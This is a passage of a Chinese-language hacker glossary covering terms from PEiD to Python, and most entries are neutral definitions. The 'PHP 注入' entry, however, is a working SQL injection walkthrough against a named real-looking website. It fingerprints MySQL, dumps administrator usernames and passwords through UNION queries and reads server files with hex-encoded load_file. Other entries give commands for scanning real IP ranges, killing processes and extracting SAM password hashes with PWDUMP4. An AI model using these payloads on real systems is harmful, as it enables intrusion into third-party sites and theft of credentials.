PEiD 是最强大的一个查壳工具，界面如图 P-3 所示，可以检测出四百多种壳，探测大多数的 PE 文件封包器、加密器和编译器，并增加病毒扫描功能，是目前各类查壳工具中性能最强的。其识别 EXE 文件的语言编写类型包括：VC++、Delphi、VB 等，支持文件夹批量扫描。插件已经增加到 5 个：General OEP、Kanal 1.3、FSG v1.33 Unpacker、CRC32（新增加）。


图 P-3

## Penumbra 黑客工具

Penumbra 是款 DLL 木马，其本身没有进程，隐蔽性较高。同时，将木马注入系统网络服务进程中，很容易突破多数防火墙限制，对于多数设置等级较低的防火墙都可顺利通过，并可通过 Windows 的默认防火墙。

## Perl 程序语言与开发，脚本

Perl（Practical Extraction and Report Language）是解释型语言，也可以说是脚本语言，最初的设计者为拉里·沃尔（Larry Wall），于 1987 年 12 月 18 日发表。Perl 是种自由且功能强大的编程语言，被用作 Web 编程、数据库处理、XML 处理以及系统管理等。Perl 的编译器是开放源码的免费软件，能在绝大多数系统中运行，可方便地向不同操作系统迁移。Perl 最初只是 Unix 系统管理员的一个工具，在工作日里被用在无数小任务中，后来逐步发展为一种全功能的程序设计语言。它是个能用来完成大量不同任务的编程语言，可用来解开一个文件并打印一份报告，或者将一个文本文档转换成另一种格式。

## Perl解释器 程序语言与开发

指用来执行 Perl 编写的脚本解释器。

## Petite 应用程序

Petite 是个 Win32（Windows 9X/NT 等）可执行文件压缩器，它允许你压缩整个可执行文件代码、数据以及资源。Petite 可自动决定压缩可执行文件的哪些部分，以及决定哪些部分需要保留。压缩过的文件运行起来就像原始的未压缩版本一样。

## PE 文件 操作系统及其相关

Windows 中所有可执行文件格式的统称，包括后缀名为 EXE、DLL、COM 等的文件。想要精通免杀技术，学习这个格式是必须的。

## PFX 安全技术

PFX 公钥加密技术 12 号标准（Public Key Cryptography Standards #12, PKCS#12）为存储和传输用户或服务器私钥、公钥和证书指定了一个可移植格式。它是一种二进制格式，这些文件也称为 PFX 文件。开发人员通常需要将 PFX 文件转换为某些不同的格式，如 PEM 或 JKS，以便可以为使用 SSL 通信的独立 Java 客户端或 WebLogic Server 使用。

## PGP 安全技术

PGP（Pretty Good Privacy）是一个基于 RSA 公钥加密体系的邮件加密软件，可以用它对指定的邮件进行保密，以防止非授权者阅读，同时还能对邮件加上数字签名，从而使收信人可以确信邮件是谁发来的。

PGP 可以使用户安全地和陌生人通信，同时事先并不需要任何保密的渠道来传递密钥。它采用了审慎的密钥管理，一种 RSA 和传统加密的混合算法，用于数字签名的邮件文摘算法，加密前压缩等，还有一个良好的人机界面设计。PGP 的功能强大，且有很快的速度，其源代码也是免费的。

在现代社会里，电子邮件和网络上的文件传输已成为生活中的一部分。信件的安全问题日益突出，在 Internet 上传输的数据是不加密的。如不保护自己的信息，第三者就会轻易获得你的隐秘。同时，为了保证邮件没有被第三者篡改，就需要数字签名技术。**RSA 公钥体系的特点使它非常适合用来满足上述两个要求：保密性（Privacy）和认证性（Authentication）。**

PGP 也是采用公钥与私钥的加密方式，即用公钥加密的密文可以用私钥解密，反过来也一样。假设甲要寄信给乙，他们互相知道对方的公钥，甲就用乙的公钥加密邮件寄出，乙收到后就可用自己的私钥解密出甲的原文。由于没别人知道乙的私钥，所以即使是甲本人也无法解密那封信，这就解决了信件保密的问题。另一方面，由于每个人都知道乙的公钥，他们都可以给乙发信，那么乙就无法确信是不是甲的来信，认证的问题就出现了，这时就需要数字签名了。

甲用自己的私钥将上述 128 位的特征值加密，附在邮件后，再用乙的公钥将整个邮件加密。这样，这份密文被乙收到后，乙用自己的私钥将邮件解密，得到甲的原文和签名，乙的 PGP 也从原文计算出一个 128 位的特征值来和用甲的公钥解密签名所得到的数比较，如果符合就说明这份邮件确实是甲寄来的。这样，两个安全性要求都得到了满足。

## Phishing（特定名称）

即是网络钓鱼，其 Phishing 与“钓鱼”的英语 fishing 发音相近，指通过大量发送声称来自于银行或其他知名机构的欺骗性垃圾邮件或 IM 信息，意图引诱收信人给出敏感信息（如用户名、口令、账号 ID、ATM PIN 码或信用卡详细信息）的一种攻击方式。

钓鱼者利用社会工程学和电子邮件欺骗策略来欺骗受害者，通常这个攻击过程不会让受害者警觉，它是“社会工程攻击”的一种形式。

最典型的网络钓鱼攻击将收信人引诱到一个通过精心设计、与目标组织的网站非常相似的钓鱼网站上，并获取收信人在此网站上输入的个人敏感信息。欺骗者向欺骗对象发送伪造的邮件，通常是冒充一些最大的网站，像是 eBay、PayPal、MSN、Yahoo 等这样的网站，来骗取接受邮件者的经济信息。

拿银行网站钓鱼攻击来说，攻击者伪造一个银行网站，它从外观上看与真正的银行网站无异，但却在用户以为是真正的银行网站而使用网络银行等服务时将用户的账号及密码窃取，从而使用户蒙受损失。

防止在这类网站受害的最好办法就是记住正常网站的网址，并当链接到一个银行网站时，对网址进行仔细对比。现在，“钓鱼”早不局限于银行账号，QQ 号和网络游戏的密码都可能成为“钓鱼”的目标。

## PHP（脚本）

PHP 是网上非常流行的脚本语言，也是建立动态网站的主力军。它是一种HTML 内嵌式语言，其与微软的 ASP 颇有几分相似，都是一种在服务器端执行的、嵌入 HTML 文档的脚本语言，语言风格类似于 C 语言，现在被很多网站编程人员广泛运用。

PHP 独特的语法混合了 C、Java、Perl 以及 PHP 自创的新语法，它比 CGI 或 Perl 更快地执行动态网页。用 PHP 做出的动态页面与其他编程语言相比，它是将程序嵌入到 HTML 文档中去执行，执行效率比完全生成 HTML 标记的 CGI 要高许多。

与同样是嵌入 HTML 文档的脚本语言 JavaScript 相比，PHP 在服务器端执行，充分利用了服务器的性能。PHP 执行引擎还会将用户经常访问的 PHP 程序驻留在内存中，其他用户再一次访问这个程序时就不需要重新编译了，只需直接执行内存中的代码即可，这也是 PHP 高效率的体现之一。

PHP 具有非常强大的功能，所有的 CGI 或 JavaScript 的功能它都能实现，而且支持几乎所有流行的数据库（包括 MySQL、PostgreSQL、Oracle、Sybase、Informix 和 Microsoft SQL Server）以及操作系统。

## PHP 的主要特性包括：

- **免费开放的源代码**：所有的 PHP 源代码事实上都可以得到；
- **基于服务器端**：由于 PHP 是运行在服务器端的脚本，所以可运行在 Unix、Linux、Windows 下；
- **嵌入 HTML**：因为 PHP 可以嵌入 HTML 语言，所以学习起来并不困难；
- **简单的语言**：PHP 坚持脚本语言为主，与 Java、C++ 不同；
- **效率高**：PHP 消耗相当少的系统资源；
- **图像处理**：可以用 PHP 动态创建图像。

## PHP 注入攻击方法与行为

PHP 注入即对 PHP 语言写成的脚本进行注入，其核心思想与 ASP 大同小异，详情请见 SQL 注入词条。由于与 PHP 组成最多的是 MySQL，所以 PHP 注入时大多就是对 MySQL 实行特定的操作。PHP 注入与 ASP 注入一样，也可分手工与工具注入，工具注入请见 CAST 词条，下面给出一个手工注入的实例。

首先要得到存在 PHP 注入的网站，在 google 下输入 `inurl:php?id=` 就可以得到很多 PHP 的网站了。随便打开一个链接，如 `http://www.shidaiguocui.com/guide_show.php?id=32`，在它后面加上 `and 1=1` 提交，返回正常，如图 P-4 所示。


加 `and 1=2` 后返回错误，如图 P-5 所示。


图 P-5 加 and 1=2 后返回错误

通过上面两个结果就可以确定该网站存在注入漏洞，但是真正影响我们注入的却不是这个 PHP 网站，而是其后台的数据库。所以接下来我们就来判断其后台数据库了，一般都是 MySQL。这里告诉大家一点，在目前的数据库系统中，只有 MySQL 数据库支持 `/*` 注释，所以我们可以利用它来判断后台是否是 MySQL，如果不是，那它就不支持这种注释了，自然就会出现错误。

我们输入 `http://www.shidaiguocui.com/guide_show.php?id=32/*` 后返回的结果如图 P-6 所示，没有出错，说明后台数据库就是 MySQL 了。


图 P-6 网站的后台数据库为 MySQL

接下来就是要判断 MySQL 数据库的版本了，因为不同的版本对注入的结果会产生很大的影响。在 MySQL 版本 4 及以上版本新增了一个联合查询（UNION）的功能，比如 SQL 语句 1 UNION SQL 语句 2，提交之后我们的 SQL 语句 1 和 SQL 语句 2 都会被执行，通过联合查询这个字面意思也是可以理解的。正是这个功能使得 MySQL 发生 SQL 注入漏洞的危险性大大提高了，利用好了我们可以轻易地获取数据库中其他数据表的信息。而在版本 4 以下，却不支持这个功能，而且由于 PHP 中的 mysql_query 函数限制了只能查询一个 SQL 语句，即使你使用分号把多个 SQL 语句组合到一起嵌入 mysql_query 函数，实际上也只有第一个 SQL 语句被提交给 MySQL，所以那个时候 MySQL 的注入并不是特别严重，而如今却变了。

所以确定 MySQL 的版本对我们来说是比较重要的，使用 `and ord(mid(version(),1,1))>51/*` 就可以实现。例如 `http://www.shidaiguocui.com/guide_show.php?id=32 and ord(mid(version(),1,1))>51/*`，提交之后，如果返回正常，如图 P-7 所示，说明这个数据库版本大于 4.0；如果返回错误，说明明显小于 4.0 的版本，即不支持 UNION 查询。


图 P-7 确定数据库版本为 4.0 以上

这里用到了我们数据库中的 version() 函数，它的作用是获得数据库的版本信息。而 ASCII 码 51 代表的是 3，这里大于 3 的当然就是 4.0 以上版本了。

其实还有一种方法可以确定当前数据库是否为 MySQL 数据库及其版本查询。在 MySQL 数据库中，有一个其他数据库没有的扩展功能，它可以用 `/*!...*/` 这种注释语句来实现各版本功能的兼容。我们要判断后台数据库可以在 URL 后输入 `/*!%20s*/` 来确定，如果返回的页面是错误的话，那几乎可以确定网站后台数据库为 MySQL 了，如图 P-8 所示。


图 P-8 后台数据库为 MySQL

用它来确定了是 MySQL 数据库后还可以一步步来定位它的版本：

- 如果在 URL 后输入 `/*!30000%20s*/`，结果返回错误的话，说明 MySQL 的版本大于 3.0；
- 如果在 URL 后输入 `/*!40000%20s*/`，结果返回错误的话，说明数据库版本大于 4.0；
- 如果在 URL 后输入 `/*!50000%20s*/`，结果返回正确的话，说明数据库版本小于 5.0，如图 P-9 所示。


图 P-9 数据库版本小于 5.0

我们还可以获得更加精确的版本，比如输入 `/*!4016%20s*/` 后返回正常则说明 MySQL 的版本小于 4.0.16；输入 `/*!4015%20s*/` 后返回错误页面，那么就可以确定该 MySQL 的版本为 4.0.15。

其实说实话，目前绝大部分的 PHP 网站的 MySQL 版本都是大于 4.0 的，至少我目前还没有见到过哪个网站是用的 3.0 版。这是因为 MySQL 是开源的，任何人都可以免费使用，自然只要一出新版本就会很快地淘汰旧版本，所以这里我讲的 MySQL 注入都是在版本 4.0 以上的。

确定版本之后我们就是要确定当前数据库的字段数目了。我们有两种办法来获得，**一是通过 UNION；二是通过 order by。**

先来说第一种，在利用联合查询（UNION）字段数目的时候有一些限制，就是要求前面的 SQL 语句 1 和后面的 SQL 语句 2 中的字段数要相同，否则就会出错。如果我们在不知道数据表的情况下就会给我们的渗透带来一些困难，所以必须确定查询语句查询的字段数目。

我们可以利用联合查询字段数目不匹配返回错误的这个特性，就可以准确地获得查询语句查询的字段数目。我们提交 `union select 1,1,1,1` 及其类似的语句，通过不断地增加 1 的个数，再结合返回信息可以迅速确定该查询语句前面查询的字段数目。

我们就是不断地增加 1，然后根据返回的结果来判断。如果当我们提交到某一个 1 的个数时，返回的页面是正确的，那么第一个 SQL 语句 1 中的字段数目就是 union 后 1 的个数。

我们可以使用更为方便的第二种方法，利用 `order by` 来猜解数据表中的字段数。利用 `order by` 后加数字，MySQL 会解释成按照第几列排序，如果查询没有我们提交的数字那么多项就会返回错误。

例如我们提交 `http://www.shidaiguocui.com/guide_show.php?id=32 order by 10` 后返回正常，说明数据表中的字段数大于 10；当提交 `order by 13` 时返回正常，如图 P-10 所示，而当提交 `order by 14` 时，如图 P-11 所示，却返回错误，这就说明数据表的字段为 13 个。


图 P-10 提交 13 个字段时返回正常

图 P-11 提交 14 个字段时返回错误

知道了字段数之后，我们就可以利用 union 查询来获得当前数据库的表名。

利用方法是“`union select 字段数 from 表名`”，中间的字段数大家要注意了，它是这样表示的：假如有三个字段，那么就应该这样：`1,2,3`。

例如刚才的那个网站，我们要获得网站数据库的表名，提交 `union select 1,2,3,4,5,6,7,8,9,10,11,12,13 from admin` 后，就变成了 `http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,2,3,4,5,6,7,8,9,10,11,12,13 from admin`。返回结果是正常的，说明 `admin` 这个表名存在，而且在页面中还有一些数字，如图 P-12 所示。如果不存在就会返回错误页面。如果要猜解其他的表名，我们只需要不断地改表名就可以了，和前面在 ACCESS 注入中差不多。


图 P-12 返回的信息

在图 P-12 的信息中，我们得到了几个数字，它们分别是 `2、3、4、5、7、9、10` 这几个数字。它们的作用就是分别代表第几个字段，而且我们可以用其他的函数或字符代替这些字段。

例如我们要查看数据库版本时用到的是 `version()` 函数，只要将 `version()` 放在上面几个字段中的任何一个中就可以得到当前数据库版本，例如提交 `http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,version(),3,4,5,6,7,8,9,10,11,12,13 from admin`，那么就会在第 2 个字段处出现数据库版本的信息；例如我们提交 `http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,username,3,4,5,6,7,8,9,10,11,12,13 from admin` 后就可以看到当前管理员的用户名，如图 P-13 所示。


图 P-13 暴出管理员用户名

而当我们提交 `http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,password,3,4,5,6,7,8,9,10,11,12,13 from admin` 后就暴出了当前管理员的密码，如图 P-14 所示。

上面我们成功地暴出了管理员的密码，当然暴出的只是 admin 表中的第一条记录，因为在默认的情况下它是取第一条记录。而如果我们要取 admin 表中的其他记录呢？比如第二条。


要实现读取其他记录，我们首先要得到表中能够唯一识别该记录的字段。如在我们实际生活中可以用身份证号码来识别每一个人，而在数据库中也要有这么一个字段，在数据库中我们称其为主键。

一般来说，程序员在做数据库的时候都是用 id 这个字段名来作为主键。这里假设 id 就是主键，那么我们要取得 admin 表中的第二条记录的信息就应该提交：

```
http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,password,3,4,5,6,7,8,9,10,11,12,13 from admin where id=2
```

这样就可以得到第二条记录的信息，也就是在后面加上 where id=数字。而这个数字就是管理员的编号，它是唯一的。

这个查询其他记录的功能非常有用，我们也知道现在几乎所有网站的密码都是经过 MD5 加密，如果那个密码设置得很变态的话，我们是很难破解的。不能被破解，系统又没有如 cookie 欺骗之类的漏洞，那么我们得到了加密密码也是没有用。而我们查询其他的记录，那么就很有可能其他记录的密码不是很强壮，破解的几率就很大。

不过除了导出数据库的数据外，还可以利用 `load_file()` 这个函数轻易地读取到服务器上的内容。要使用这个函数，当前数据库的权限必须为 root（和 SA 是一样的，只不过这里不叫 SA，叫 root，其实也是超级管理员）。所以我们要使用 `load_file()` 函数，首先判断是否是 root 权限，可以使用 `and ord(mid(user(),1,1))=114/*` 来完成。

例如输入：

```
http://www.shidaiguocui.com/guide_show.php?id=32 and ord(mid(user(),1,1))=114/*
```

后，如果返回正确的话，则说明是 root 权限，而错误的话就不是 root 权限了，如图 P-15 所示。


我们还可以利用 `and (select count(*) from mysql.user)>0` 来判断是否具有文件读写的权限，这样可以实现文件的读取。前面我们在得到存在的数据表以后，返回的信息有很多的数字，如图 P-12。我也提到了可以用函数来代替它们，如果发现一个网站可以执行 `load_file()` 函数的话，也可以往这些字段中写入 `load_file()` 函数，以读取服务器上的信息。

```
http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,load_file(0x633A2F626F6F742E696E69),3,4,5,6,7,8,9,10,11,12,13 from admin
```

我还是以上面的网站为例子，而且 MySQL 是具有 root 权限的，可以利用 `load_file()` 读取文件。不过这里我假设这个网站是用的 Windows 操作系统，那么我要读取 `c:/boot.ini` 文件中的信息，可以提交上面的语句，这样可以读取 `c:/boot.ini` 中的信息。有人会问，在上面提交的代码中没有看到 `c:/boot.ini` 字样啊？其实 `0x633A2F626F6F742E696E69` 就是 `c:/boot.ini` 的十六进制表示。这里把它改成十六进制是为了防止我们提交的数据被 PHP 转义掉，例如提交 `'` 时被转义为 `\'`。被转义后我们提交的数据就会是错误的了，自然结果也是错误的，而十六进制可以避免这个情况的发生。

## PHP3 脚本

PHP 以前的一个版本，目前主要用的是 PHP4。PHP3 与 Apache 服务器紧密结合，不断更新和加入新功能，而且几乎支持所有主流与非主流数据库。其高速的执行效率，使得 PHP 在 1999 年的使用站点超过 15000000。PHP3 源代码完全公开，在 Open Source 意识抬头的今天，它更是这方面的中流砥柱。PHP3 不断有新函数库加入以及不停地更新，使其无论在 Unix、Linux 或 Windows 平台上都可以有更多的新功能。PHP3 提供丰富的函数，使得在程序设计方面有着更好的支持。

## phpBB 脚本

phpBB 是一套世界上应用最广泛的开源社区论坛软件。phpBB 使用了当今网络上流行的 PHP 语言工作，可以搭配 MySQL、MS-SQL、PostgreSQL 和 Access/ODBC 等数据库系统使用。支持邮寄、回复、编辑信息，可设置个人信息、个人论坛、用户和匿名邮件、讨论主题等。通过提交或其他特殊顺序排队用户，可定义管理、排队等功能。


phpBB 具有很高的可配置性，能完全定制出个性化的论坛，适合于大多数网站来搭建论坛系统。phpBB 的开发成员来自开源社区，是个国际性的开源项目，图 P-16 为标准的 phpBB 演示论坛。

### phpArticle（脚本）

phpArticle 由 PHP 语言开发，使用快速的 MySQL 数据库保存数据，为中小型网站发表文章、存放资料、新闻发布提供了完美的解决方案。

### PHPKit（脚本）

PHPKit 是一款基于 Web 的消息论坛系统。

### phpMyAdmin（脚本）

phpMyAdmin 是款用 PHP 编写的、以方便网站管理员管理数据库的程序，它可通过互联网控制和操作 MySQL。通过 phpMyAdmin 可完全对数据库进行操作，如建立、复制/删除数据等。

### PHPShell（渗透技术）

利用 PHP 语言写的 WebShell。

### PhpSpy（黑客工具）

PhpSpy 是款用 PHP 语言编写的在线管理程序，同时集成很多和海阳顶端网类似的功能，也可以说是一个 Web 方式的后门。由于程序性质问题，公开提供下载的版本不会提供更多的操作，如 MSSQL 连接、WIN 主机反弹等。

### PHPWind（脚本）

国内一款流行的论坛程序，由 PHP 语言编写。PHPWind 是一套采用 PHP+MySQL 数据库方式运行，可生成静态 HTML 页面的、全新且完善的系统。PHPWind 作为一个开源共享的软件，在同行中有不错的口碑。

### PHPWindBLOG（脚本）

PHPWindBLOG 是套基于 PHP+MySQL 数据库平台架构的多用户博客系统。该系统融合了 Blog 的最新元素，拥有强大的个人主页系统，独立的二级域名功能，灵活的用户模板系统，丰富的朋友圈和个性相册功能。

## PHP 的 magic_quotes_gpc=on 脚本

一般在 PHP 环境的配置文件 `php.ini` 中有一个非常重要的配置选项：`magic_quotes_gpc`，高版本默认都是 `magic_quotes_gpc=On`。

当 `php.ini` 中 `magic_quotes_gpc=On` 时，它会把提交变量中所有的 `'`（单引号）、`"`（双引号）、`\`（反斜线）和空字符自动转为含有反斜线的转义字符。例如把 `'` 变成 `\'`，把 `"` 变成 `\"`。这样增加了对 PHP 进行注入的难度（详情请见 PHP 注入）。

## PHP 探针脚本

指用来查看服务器具体设置情况的脚本程序，一般可查看的数据有以下几个：

- 1. 服务器环境探测：CPU、在线时间、内存使用状况、系统平均负载探测（支持 Linux、FreeBSD 系统，需系统支持）、操作系统、服务器域名、IP 地址、解释引擎等；
- 2. PHP 基本特征探测：版本、运行方式、安全模式及常规参数；
- 3. PHP 组件支持探测：MYSQL、GD、XML、SESSION、SOCKET 等组件支持情况；
- 4. 服务器性能检测：整数运算能力、浮点数运算能力、数据 IO 能力；
- 5. 自定义探测：MYSQL 连接测试、E-mail 发信测试、函数支持情况及 PHP 配置参数。

## PID 操作系统及其相关

PID 即进程标识符，用来标识进程，这样不会因为进程同名而混淆。可以打开任务管理器，在菜单上点“查看”-“选择列”，把 PID 调出来，然后就可在任务管理器里看到每个任务的 PID 了，如图 P-17 所示。


## Ping 黑客技术基础

Ping 命令是网络上最常用的命令，它历史悠久且实用性高，一般用它来测试两个网络是否连通。作为一个网络管理员或黑客来说，Ping 命令是第一个必须掌握的 DOS 命令。

Ping 命令通过向远程计算机发送 ICMP 协议中的 ECHO request 报文（请求报文 ICMP ECHO 类型 8 代码 0，应答报文 ICMP ECHOREPLY 类型 0 代码 0），以检查与远程计算机或本地计算机的连接。对于每个发送的报文，Ping 最多等待 1 秒，并输出发送和接收报文的数量，比较每个接收报文和发送报文，以校验其有效性。默认情况下，发送四个回应报文，每个报文包含 64 字节的数据。下面用三个例子介绍 Ping 命令的具体使用（以下示例均在远程主机无防火墙且不阻止 ICMP 包的情况下操作）：

- 1. 初步确认对方操作系统

Ping 远程主机 172.18.2.80（与本机在同一局域网内），输入命令 `ping 172.18.2.80`。

````
C:\Documents and Settings\Administrator>ping 172.18.2.80

Pinging 172.18.2.80 with 32 bytes of data:

Reply from 172.18.2.80: bytes=32 time<1ms TTL=128
Reply from 172.18.2.80: bytes=32 time=5ms TTL=128
Reply from 172.18.2.80: bytes=32 time<1ms TTL=128
Reply from 172.18.2.80: bytes=32 time=5ms TTL=128

Ping statistics for 172.18.2.80:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 5ms, Average = 2ms
````

上面的 `time` 表示包从发出到返回所经历的时间；`TTL` 代表生存值，这里为 128，说明远程主机应为 Windows 系统。如果为 64 一般是 Unix/Linux 系统，255 一般为路由器。

- 2. 确认所经路由数量

如 Ping 不同网段主机 172.16.10.252，输入命令 `ping 172.16.10.252`。

````
C:\Documents and Settings\Administrator>ping 172.16.10.252

Pinging 172.16.10.252 with 32 bytes of data:

Reply from 172.16.10.252: bytes=32 time<1ms TTL=127
Reply from 172.16.10.252: bytes=32 time=5ms TTL=127
Reply from 172.16.10.252: bytes=32 time<1ms TTL=127
Reply from 172.16.10.252: bytes=32 time=5ms TTL=127

Ping statistics for 172.16.10.252:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 5ms, Average = 0ms
````

这里的 TTL 为 127，则所经过路由应为 1 台（128-127）。与此相似的命令还有 Tracert。

## PIN 安全技术

PIN 即个人标识号，手机配有一个或多个密码来防止他人使用。当启用 PIN 码后，相当于给 SIM 卡加了一个密码，该 SIM 卡密码与使用哪部手机无关。当你把 SIM 卡插入任何一部手机，每次打开手机电源时，手机屏幕上都会提示要求输入 PIN 码。若你连续三次输入错误的 PIN 码（SIM 卡密码），手机内的 SIM 卡将被自动锁住。PIN 码的初始密码都是 1234，你可自己修改 PIN 码（要启用或修改 PIN 码，需你在手机上进行相应设置，具体操作请参照手机使用说明书）。不过一般情况下，建议不要轻易启用手机 PIN 码，这样可避免输错 PIN 码后带来的诸多不便。

## PNG 操作系统及其相关

一种典型的图像文件格式，全称为流式网络图形格式（Portable Network Graphics Format，PNG）。PNG 是 20 世纪 90 年代中期开始开发的图像文件存储格式，其目的是企图替代 GIF 和 TIFF 文件格式，同时增加一些 GIF 文件格式所不具备的特性。PNG 用来存储灰度图像时，灰度图像的深度可多到 16 位；存储彩色图像时，彩色图像深度可多到 48 位，并且还可存储多到 16 位的 α 通道数据。

## PortRelay 端口数据转发（黑客工具）

一款端口映射工具，AIO 已经将其集成。

````
用法：Aio.exe -PortRelay 本地绑定端口 转发至的IP 转发至端口
例子：Aio.exe -PortRelay 3389 211.12.12.12 3389
帮助：Aio.exe -PortRelay
````

## PortScan 黑客工具

一款端口扫描工具，AIO 已将其集成。

````
用法：Aio.exe -PortScan Syn|TCP -S 起始地址 -E 终止地址 -P 端口列表 -T 线程数
例子：Aio.exe -PortScan Syn -S 61.129.1.1 -E 61.129.1.255 -P 3389 -T 512 /TS
````

扫描 61.129.1.1 到 61.129.1.255 的主机的 3389 端口，检查是否打开的是终端。

````
例子：Aio.exe -PortScan Syn -S 61.129.12.12 -P 1-65535 -T 512 /TS

扫描 61.129.12.12 主机 65535 个端口，检查哪个端口打开了终端服务

例子：Aio.exe -PortScan Syn -S 61.129.12.12 -P 1-65535 -T 512 /S5

扫描 61.129.12.12 主机 65535 个端口，检查哪个端口打开了 Socks5 服务
帮助：Aio.exe -PortScan
````

这个功能的用法是最多的，也是很强大的（Syn 扫描只适用于 Win2K 或以上系统）。

## POP3（黑客技术基础）

POP3 即 Post Office Protocol 3，是最广泛使用的电子邮件协议，目前已发展到第三版，称 POP3。它规定怎样将计算机连接到 Internet 的邮件服务器和下载电子邮件的电子协议，是因特网电子邮件的第一个离线协议标准。POP3 允许用户从服务器上把邮件存储到本地主机（即自己的计算机），同时删除保存在邮件服务器上的邮件，而 POP3 服务器则是遵循 POP3 协议的接收邮件服务器，用来接收电子邮件。

## POST（黑客技术基础）

HTTP 协议中提交数据的一种最常用方式，其特点是可以提交大量数据，POST 方法经常用来提交表单中的数据，与它相似的方法还有 GET，它们的区别请见 GET 词条。

## POWEROFF（特定名称）

即英语的关机。

## PPTP（黑客技术基础）

PPTP 即点对点隧道协议（Point to Point Tunneling Protocol），是一种在 VPN 连接中常用的协议。该协议是在 PPP 协议基础上开发的一种新的增强型安全协议，可以使远程用户通过拨入 ISP，直接连接 Internet 或其他网络安全地访问企业的内网，用以减少许多网络接入费用，降低网络的复杂性。

例如企业员工出差在外，需要每天晚上将出差报告发送到主管的企业内部邮箱，同时收取企业内部邮箱里面的邮件，这时就需要用 PPTP 进行 VPN 连接，出差员工通过 VPN 拨号进入企业内网来完成上述操作。

## Private exe Protector｜应用程序，调试技术

Private exe Protector（PeP）是强大的 Win32 应用程序保护工具，如图 P-18 所示，支持所有流行开发工具：Asm、C++、VC++、Delphi 及其他。本程序为软件开发人员提供诸如反逆向引擎、分析、修改和破解等软件保护措施。PeP 使用了多态变形引擎（防止嗅探工具探测特征码）、LZMA 压缩算法、高级反调试器方法、入口点抽取字节等，具体如下：

- Win32 API 调试器断点检测
- 调试器检测
- 反进程转储
- 虚拟输入表
- 运行后实时保护
- 抽取字节技术
- 偷取资源技术（首个采用此技术的保护工具！）
- SEH 链阻止跟踪和调试
- 虚拟机
- CRC 校验和保护


## Privoxy｜应用程序

Privoxy 是款有强大过滤功能的代理，能过滤网页内容、管理 Cookies、控制访问、过滤掉广告和 Banners 及其他垃圾内容。它基于 Internet Junkbuster。

## Promiscuous Mode｜特定名称

Promiscuous Mode 即混杂模式，它是嗅探技术的重要组成部分。在非交换环境下（即通过 HUB 组建起来的网络），HUB 是向所有接口广播收到的包（因为 HUB 不知道哪个包是属于哪个接口的），而计算机的网卡会自动选择接收目的地址为本机 IP 的包，抛弃不属于自己的包。当网卡激活为混杂模式时，就可让网卡接受这些包，并传递给应用层处理，这样就可查看到不属于自己的包。网络管理员可借此分析网络状况，而入侵者则能窃取他人信息。

不过这种方法在交换环境（即通过交换机组建的网络）下是不能使用的，此时想嗅探他人的数据就必须借助 **ARP 欺骗** 了。

## PS AUX｜操作系统及其相关

Linux 命令之一，显示瞬间进程（Process）的动态，其使用权限是所有使用者。

````
ps -aux
````

显示所有包含其他使用者的进程。

## PSAPI 操作系统及其相关

系统 DLL 文件，即 psapi.dll。它是 Windows 系统进程状态支持模块。

## Pskill 黑客工具

入侵中常用的杀进程工具，AIO 已将其集成，其用法如下：

````
用法：Aio.exe -Pskill PID|进程名

例子：Aio.exe -Pskill 3465

例子：Aio.exe -Pskill iexplore
````

## Pslist 黑客工具

入侵中常用的列进程工具，AIO 已将其集成，其用法如下：

````
用法：Aio.exe -Pslist
````

## PUBLIC 数据库，特定名称

- 1. SQL Server 中数据库角色的一种，也是权限最小的一种，不能建立表（可建立临时表），也不能修改其他表的数据，所以此时入侵的难度最大。
- 2. 编程时常用到的标识符，它的本意是“公共的”，许多语言都用它来标志一个变量、函数、类或者方法的访问权限。

## Pubwin 黑客技术基础

Pubwin 是著名的网吧管理软件，如图 P-19 所示，在许多大中城市被广泛使用，上海地区已有 90% 以上的市场占有率。安全性与稳定性都有不错的口碑。


图 P-19

## Pubwin 服务器 黑客技术基础

即安装 Pubwin 管理软件的服务器。

## PUT 黑客技术基础

PUT 与 GET、POST 一样，都是 HTTP 协议中进行数据提交的方式。

## PuTTY 应用程序

PuTTY 是套免费的 SSH/Telnet 程序，它可连接支持 SSH/Telnet 联机的站台，并且可自动取得对方的系统指纹码（Finger print）。建立联机后，所有通讯内容都是以加密的方式传输，不必担心 Telnet 在 Internet 或公司的内部网络传输资料时被他人获知。

## PWDUMP4 黑客工具

一个用来抓取 Windows NT/2000/XP 中 SAM 文件里密码散列的工具，但对于 Windows 2003 Server 无效。下面给出简要的使用方法：

````
PWDUMP4 [Target][/|][/s:share][/o:outputFile] [/u:userName]
````

- **说明：**
- `[Target]`：目标计算机的名称或者 IP 地址
- `[/|]`：在本地机器上运行
- `[/s:share]`：用来共享文件
- `[/o:outputFile]`：将 SAM 文件输出到指定文件中
- `[/u:userName]`：使用用户名和密码登录远程计算机

例如，在本地机器 192.168.1.100 上获取 SAM 文件，可以使用命令：

````
PWDUMP4.exe /| /o:192.168.1.100.SAM
````

说明：此命令表示在本地机器上抓取密码信息，并在本地计算机上生成一个“192.168.1.100.SAM”文件。

又如，在远程计算机上获取 SAM 文件，可以使用命令：

````
PWDUMP4.exe 192.168.1.100 /o:192.168.1.100.SAM /u:admin
````

说明：该命令是在本地机器获取远程机器的密码文档信息。其中，192.168.1.100 为远程计算机的 IP 地址，不过其“/u:”后必须跟管理员用户，且在随后必须输入正确的密码并建立 IPC 会话后才能获取。一般导出后的 SAM 文件可以用 L0phtcrack 进行破解。

## PYOPENSSL 应用程序

PYOPENSSL 是用 PYTHON 编写的开源 OPENSSL 的库，可以给程序提供可靠的加密支持。它是通过流行的 OpenSSL 库来进行 SSL 加密的接口。一般在 Python 中有两种实现 SSL 的方法：内置 SSL 支持以及 pyOpenSSL 库。

pyOpenSSL 还支持对等机器证书的认证——网络通信的一个非常重要部分。在 osslverify.py 中，你看到的 verify() 就可处理远程机器的认证。

Python 程序员可以像使用标准 Socket 对象那样使用它的 Context 对象，但需要调整一下读取部分的代码。

## Python 程序语言与开发

